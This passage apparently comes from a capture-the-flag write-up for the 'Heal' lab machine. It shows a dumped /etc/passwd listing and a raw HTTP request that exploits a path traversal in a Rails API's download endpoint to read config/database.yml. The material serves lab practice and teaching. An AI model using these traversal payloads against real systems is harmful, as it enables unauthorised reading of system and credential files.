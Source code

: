```http
vary: Origin

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
avahi:x:114:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
geoclue:x:115:121::/var/lib/geoclue:/usr/sbin/nologin
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
ron:x:1001:1001:,,,:/home/ron:/bin/bash
```
# Exploitation
## Ruby on Rails API LFI
### `config/database.yml`
- Looking around for interesting files for Ruby on Rails we can eventually find this:
- [Configuring a database](https://guides.rubyonrails.org/configuring.html#configuring-a-database](https://guides.rubyonrails.org/configuring.html#configuring-a-database "https://guides.rubyonrails.org/configuring.html#configuring-a-database")
```http
GET /download?filename=../../config/database.yml HTTP/1.1
Host: api.heal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ
Origin: http://heal.htb
Connection: keep-alive
```